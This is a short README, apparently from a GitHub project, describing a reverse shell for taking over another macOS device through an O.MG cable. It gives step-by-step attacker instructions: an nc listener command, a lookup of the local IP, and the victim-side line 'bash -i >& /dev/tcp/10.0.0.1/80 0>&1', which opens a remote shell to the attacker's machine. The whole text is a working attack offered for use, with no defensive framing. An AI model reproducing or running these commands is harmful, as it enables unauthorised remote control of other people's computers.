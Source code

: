 # This is, at heart, is a simple reverse shell to gain access to another MacOSX device. I'm looking into creating a tight shell that can run like a daemon but that is a wet dream atm.

# FIRST STEP(s):
# run "nc -l <any port>" on the attackers machine
# This initialzes your computers listening protocol to look for TCP connections
**IMPORTANT**
# open another Terminal window and run "ipconfig getifaddr en0" to obtain your computers local ip (this is important for the next step)

# NEXT STEP:
# Then simply run the script in your O.MG UI when the cable is connected

# An example of the code run on the attackers computer:
    nc -l 80

# An example of the code run on the victims computer:
    bash -i >& /dev/tcp/10.0.0.1/80 0>&1
